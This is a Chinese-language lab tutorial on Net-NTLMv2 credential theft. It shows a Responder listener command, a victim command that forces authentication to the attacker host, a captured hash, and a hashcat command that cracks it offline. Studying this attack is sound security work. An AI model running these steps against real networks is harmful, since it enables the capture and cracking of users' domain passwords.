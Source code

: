 # NTLM 离线爆破

- 攻击者（kali）：192.168.72.162
- 受害者（administrator）：192.168.72.163

因为 NTLM 身份验证是通过计算正确的挑战值得出的，所以如果我们能获取域用户的 NTLM 认证某一服务的  Net-NTLM v2 Hash 就能保存下来，离线破解。这是因为  Net-NTLM v2 Hash 中既包含 Server Challenge，也包含 NTProofStr ，所以使用公开的算法 + 要爆破的字典 + Server Challenge 运算后得到的 NTProofStr 与 Net-NTLM v2 Hash 中的一致，既能说明密码正确。

其流程如下：

1. 抓取用户的  Net-NTLM v2 Hash 。 
2. 保存下来进行离线爆破。

##### 抓取用户的  Net-NTLM v2 Hash

通常是自己开一个由 NTLM 认证的脚本服务器，然后通过其他方式（如：钓鱼、打印机漏洞等）使目标用户触发对脚本服务器的认证。这里就不演示漏洞或钓鱼的过程。

使用 Responder 作为 NTLM 认证的脚本服务器：https://github.com/SpiderLabs/Responder ，使用如下命令开启 Responder 监听：

```
python2 ./Responder.py -I eth0 -f -v
```

受害者触发对 Responder 的 NTLM 认证：

```
在受害者机器（192.168.72.163）上的 cmd 窗口输入：dir \\192.168.72.162\c$
```

Responder 抓取到 Net-NTLM v2 Hash ：

```
ADMINISTRATOR::HACKER:1122334455667788:ef775ca457bbedf4d3ca9d002de4dd98:0101000000000000efbc45e03751db0138484e501d3642150000000002000a0053004d0042003100320001000a0053004d0042003100320004000a0053004d0042003100320003000a0053004d0042003100320005000a0053004d004200310032000800300030000000000000000000000000300000a02e3643693022f1b7244a7514f4bd535ac40eb30eacec7e11f3e692dae1c5430a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00370032002e003100360032000000000000000000
```

![image-20241218190516211](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241218190516211.png)

##### hashcat离线爆破

```
hashcat -m 5600 Administrator::HACKER:1122334455667788:EF775CA457BBEDF4D3CA9D002DE4DD98:0101000000000000EFBC45E03751DB0138484E501D3642150000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000300000A02E3643693022F1B7244A7514F4BD535AC40EB30EACEC7E11F3E692DAE1C5430A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00370032002E003100360032000000000000000000 wordlists.txt --force
```

![image-20241218190707027](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241218190707027.png)